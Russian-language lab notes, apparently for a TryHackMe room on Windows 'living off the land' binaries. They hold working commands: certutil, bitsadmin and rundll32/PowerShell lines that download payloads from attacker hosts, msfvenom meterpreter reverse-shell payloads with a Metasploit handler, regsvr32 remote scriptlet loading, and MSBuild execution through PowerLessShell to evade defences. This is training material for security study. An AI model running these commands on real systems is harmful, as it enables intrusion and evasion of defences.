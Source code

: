 ```http
https://tryhackme.com/room/livingofftheland
```
# Windows Sysinternals
Windows Sysinternals — это набор инструментов и расширенных системных утилит, разработанных для помощи ИТ-специалистам в управлении, устранении неполадок и диагностике операционной системы Windows по различным сложным темам. 

```
\\live.sysinternals.com\tools
```
___
___
# LOLBAS
Основная цель проекта — собрать и задокументировать подписанные Microsoft и встроенные инструменты, используемые в качестве методов жизни вне Земли, включая двоичные файлы, скрипты и библиотеки.

```
https://lolbas-project.github.io/
```

Для того чтобы инструмент считался техникой «Жизни за счет земли» и был принят в рамках проекта LOLBAS, необходимы определенные критерии:  

- Подписанный Microsoft файл, встроенный в ОС или загруженный с сайта Microsoft.  
- Наличие дополнительных интересных непреднамеренных функций, не охваченных известными вариантами использования.  
- Приносит пользу APT (Advanced Persistent Threat) или действиям Red Team.

Веб-сайт LOLBAS предоставляет удобную строку поиска для запроса всех доступных данных. Искать двоичный файл просто; включение имени двоичного файла покажет результат. Однако, если мы хотим найти конкретную функцию, нам необходимо указать  / перед именем функции. Например, если мы ищем все функции выполнения, нам следует использовать  /execute .  Аналогично, чтобы искать на основе типов, нам следует использовать  символ # , за которым следует имя типа.  Ниже приведены типы, включенные в проект:
- Script
- Binary
- Libraries
- OtherMSBinaries
___
___
# File Operations
### Certutil

```cmd
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
```

Также  certutil.exe  можно использовать в качестве инструмента кодирования, с помощью которого мы можем кодировать файлы и декодировать их содержимое.  ATT&CK  [T1027](https://attack.mitre.org/techniques/T1027/) ссылается на эту технику для запутывания файлов, чтобы затруднить их обнаружение или анализ.
```cmd
certutil -encode payload.exe Encoded-payload.txt
```
___
### BITSAdmin

```cmd
bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe
```
___
### FindStr
Загрузка удаленных файлов из общих папок SMB
```cmd
findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe
```
___
___
# File Execution
Основанный на фреймворке MITRE ATT&CK, этот метод называется  **Signed Binary Proxy Execution**  или  **Indirect Command Execution (косвенное выполнение команды)** , при котором злоумышленник использует другие системные инструменты для запуска вредоносной полезной нагрузки. Этот метод также помогает обойти средства защиты.
___
### File Explorer
- C:\Windows\explorer.exe для 64-разрядной версии Windows.
- C:\Windows\SysWOW64\explorer.exe для 32-разрядной версии Windows.

```
explorer.exe /root,"C:\Windows\System32\calc.exe"
```
___
### WMIC
Инструментарий управления Windows (WMIC) — это утилита командной строки Windows, которая управляет компонентами Windows. Обнаружено, что WMIC также используется для запуска двоичных файлов с целью обхода защитных мер.  В фреймворке MITRE ATT&CK  этот метод называется Signed Binary Proxy Execution ( [T1218](https://attack.mitre.org/techniques/T1218/) )

```powershell
wmic.exe process call create calc
```
___
### Rundll32
Rundll32 — это  встроенный инструмент  Microsoft , который загружает и запускает DLL -файлы динамической библиотеки в операционной системе. Команда, находящаяся под угрозой, может использовать  rundll32.exe для запуска произвольных полезных нагрузок и выполнения скриптов JavaScript и PowerShell. Фреймворк MITRE ATT &  CK идентифицирует это как  **Signed Binary** **Proxy** **Execution: Rundll32** и обозначает это как [T1218](https://attack.mitre.org/techniques/T1218/011/) .

```powershell
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```

 Следующая команда запускает JavaScript-код, который выполняет скрипт PowerShell для загрузки данных с удалённого веб-сайта с помощью  rundll32.exe .
```powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```
___
___
# Обход белого списка приложений
Белый список приложений — это функция безопасности конечных точек Microsoft, которая предотвращает запуск вредоносных и несанкционированных программ в режиме реального времени. Белый список приложений основан на правилах, которые определяют список одобренных приложений или исполняемых файлов, разрешённых к использованию и запуску в операционной системе. В  этой задаче рассматриваются примеры LOLBAS, используемые для обхода белого списка приложений Windows.
___
### Regsvr32
Regsvr32 — это утилита командной строки Microsoft для регистрации и отмены регистрации динамически подключаемых библиотек (DLL) в реестре Windows.  Двоичный файл regsvr.exe находится по адресу:

```powershell
C:\Windows\System32\regsvr32.exe для 32-битной версии Windows
C:\Windows\SysWOW64\regsvr32.exe для 64-битной версии Windows
```

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll

C:\Users\thm> c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll
ИЛИ
C:\Users\thm> c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
```
___
### Bourne Again Shell (Bash)
В 2016 году Microsoft добавила поддержку среды Linux в Windows 10, 11 и Server 2019. Эта функция известна как подсистема Windows для Linux ( [WSL](https://docs.microsoft.com/en-us/windows/wsl/about) ) и существует в [двух версиях WSL](https://docs.microsoft.com/en-us/windows/wsl/compare-versions) : WSL1 и WSL2. WSL — это виртуализированный дистрибутив Linux на базе Hyper-V , работающий в операционной системе и поддерживающий подмножество ядра Linux и системных вызовов.

```powershell
bash.exe -c "path-to-payload"
```
___
___
# Другие техники
# Ярлыки
Команда Red часто использует этот метод для получения начального доступа, повышения привилегий или сохранения.В фреймворке MITRE ATT&CK этот **метод модификации ярлыка**  называется [T1547](https://attack.mitre.org/techniques/T1547/009/) , при котором злоумышленник создаёт или изменяет ярлык, чтобы воспользоваться этим методом.
```http
https://github.com/theonlykernel/atomic-red-team/blob/master/atomics/T1023/T1023.md
```
___
### Никакого PowerShell !
PowerLessShell — это инструмент на основе Python, который генерирует вредоносный код для запуска на целевой машине без отображения экземпляра процесса PowerShell . PowerLessShell использует Microsoft Build Engine (MSBuild), платформу для сборки приложений Windows, для удалённого выполнения кода.

```http
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
```

```powershell
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1

msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4443;exploit"

python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj

c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```
